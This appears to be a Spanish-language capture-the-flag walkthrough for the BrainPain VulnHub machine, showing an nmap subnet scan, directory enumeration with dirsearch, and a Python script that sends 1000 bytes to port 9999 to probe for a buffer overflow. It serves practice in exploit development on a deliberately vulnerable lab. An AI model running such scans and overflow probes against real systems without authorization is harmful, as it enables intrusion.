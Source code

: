 # Resolviendo máquina BrainPain de VulnHub
---
### Software:

- Immunity Debugger
- mona.py
- VMware
- Dirsearch
- python

### OS:

 - Windows 10 Pro
 - Kali Linux
 - MV BrainPain
 ---
 ### Empezamos:
 En primer lugar, levantaremos la máquina BrainPain y desde nuestra Kali haremos un escaneo de nuestra red para ver si la encontramos. Para ello lanzamos:
 ````
 nmap 192.168.0.0/24 -v -O
 ````
 Una vez la identificamos nos damos cuenta que tiene abiertos los puertos 9999 y el 10000 con el servicio HTTP activo, por lo que abriremos la dirección en el navegador web.
 
 Al entrar en la dirección web encontramos una imagen y no hay enlaces ni posibilidad de movernos por la web, por lo que utilizaremos el siguiente programa: ***Dirsearch***
 ````
 https://github.com/maurosoria/dirsearch
 git clone https://github.com/maurosoria/dirsearch.git
 cd dirsearch
 python3 dirsearch.py -u <URL> -e <EXTENSIONS>
 ````
 Al ejecutar el programa, econtramos que tiene un directorio: "/bin". Al entrar nos encontramos con un .exe.
 Por lo que llega el momento de irnos a nuestra máquina Windows 10 pro.

Al ejecutar el programa nos encontramos con esto:
 ````
 [+] initializing winsock...done.
 [+] server socket created.
 [+] bind done on port 9999
 [+] waiting for connections.
 
 ````

Se crea un server socket en el puerto 9999. Es el momento de crear un script en python para ser capaces de enviarles bytes al servidor y ver si somos capaces de encontrar un BOF.

El script nombrado "brainpain.py" es muy sencillo, simplemente genera una conexión y manda los bytes que le indiquemos:
````
#!/usr/bin/python
import socket

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('127.0.0.1',9999))

buf =  '\x41' * 1000

client.send(buf)
client.close()
````

